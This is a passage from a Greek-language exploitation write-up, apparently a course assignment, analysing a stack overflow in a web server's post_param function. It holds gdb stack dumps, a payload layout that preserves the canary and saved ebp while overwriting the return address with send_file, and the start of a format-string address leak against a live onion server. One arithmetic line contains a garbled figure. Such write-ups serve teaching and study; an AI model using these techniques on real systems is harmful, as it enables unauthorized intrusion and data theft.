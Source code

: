 ```
0xffffcee0:     0x56559186      0x00000000      0x5656c310      0x565567ff
0xffffcef0:     0x5656c316      0x00000005      0x30ffcf58      0x5655742b
0xffffcf00:     0x37373562      0x36333138      0x64306639      0x35626663
0xffffcf10:     0x00000000      buffer_addr     0x00646634      canary
0xffffcf20:     0x56558f04      0xf7fcf000      epb_content     return_addr
```
Όπου:
- **buffer_addr**: η διεύθυνση του buffer μας (δηλαδή του πίνακα post_data), η οποία πρέπει να παραμείνει ίδια μετά το attack.
- **canary**: Το canary, το οποίο πρέπει να παραμείνει ίδιο μετά το attack.
- **ebp_content**: Το περιεχόμενο του $ebp, το οποίο πρέπει να παραμείνει ίδιο.
- **return_addr**: Το return address της συνάρτησης post_param, το οποίο θέλουμε να κάνουμε overwrite με το address της συνάρτησης send_file.

Όλα τα υπόλοιπα words δεν μας ενδιαφέρουν και δεν έχει σημασία το τι θα περιέχουν μετά το attack.

Επομένως το payload της επίθεσης μας πρέπει να έχει την εξής μορφή:
```
13 random words + buffer_addr + 1 random word + canary + 2 random words + ebp_content + address of send_file
```
Έτσι, επόμενος μας στόχος είναι:
- Να βρούμε έναν τρόπο να διατηρούμε σταθερά τα buffer_addr, canary και ebp_content
- Να βρούμε την διεύθυνση της send_file στον πραγματικό server (του onion site)

## Εύρεση πραγματικών διευθύνσεων

Για την εύρεση των διευθύνσεων που αναφέρθηκαν παραπάνω, χρησιμοποιήσαμε το Print Format Vulnerability που εντοπίσαμε στο ερώτημα 3.

Αρχικά, ακολουθήσαμε την ίδια διαδικασία με παραπάνω έτσι ώστε να αναλύσουμε την δομή της στοίβας κατά την κλήση της συνάρτησης check_auth.

Θέτοντας ένα breakpoint ακριβώς πριν την εκτέλεση της vulnerable printf (δηλαδή στο σημείο main.c:133), βρίσκουμε την διεύθυνση του $ebp και του $esp:
```
(gdb) x/a $ebp
 0xffffcf28:     0xffffcf68
(gdb) x/a $esp
 0xffffcec0:     0xf7d05d80
```
Παρατηρούμε ότι ffffcf28 – ffffcee0 = 68 (σε δεκαδικό: 44294954792 – 4294954688 = 104) δηλαδή ότι ο $ebp έχει 26 (104/4) words διαφορά από τον $esp. Επίσης, γνωρίζουμε ότι το return address βρίσκεται ακριβώς μετά από τον $ebp, δηλαδή 27 words μετά τον $esp. 

Αυτό επιβεβαιώνεται και αν εκτυπώσουμε τον $esp και τα επόμενα 27 words από αυτόν (δηλαδή συνολικά 28 words). Εκτελούμε την εντολή ```x/28xw $esp``` και το output είναι το εξής:
```
(gdb) x/28xw $esp
0xffffcec0:     0xf7d05d80      0x00000000      0x5655c47a      0x56559180
0xffffced0:     0xf7d05d80      0x00000000      0x5656c310      0x0000009a
0xffffcee0:     0x00000000      0x00000001      0x5656c310      0x00000000
0xffffcef0:     0x56557569      0x0000009a      0xffffcf58      0xf7b9dff2
0xffffcf00:     0xf7d05d80      0x00000000      0x00000000      0xf7b5f570
0xffffcf10:     0xf7b9dfd7      0xf7d03880      0xf7d05d80      0x24913800
0xffffcf20:     0xf7d05d80      0x56558f04      0xffffcf68      0x565560c2

(gdb) x/a $ebp+4
0xffffcf2c:     0x565560c2 <route+111>
```
